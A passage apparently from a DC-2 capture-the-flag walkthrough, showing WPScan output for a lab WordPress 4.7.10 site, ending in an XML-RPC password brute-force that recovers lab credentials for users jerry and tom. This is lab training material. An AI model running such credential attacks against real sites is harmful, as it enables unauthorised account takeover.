 ```txt
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.6
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 3 user/s
// highlight-start
[SUCCESS] - jerry / adipiscing                                                                                                                                                                                                              
[SUCCESS] - tom / parturient
// highlight-end                                                                                                                                                                                                                
Trying admin / log Time: 00:01:05 <==============================================================================================                                                                       > (646 / 1121) 57.62%  ETA: ??:??:??

[!] Valid Combinations Found:
// highlight-start
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
// highlight-end

```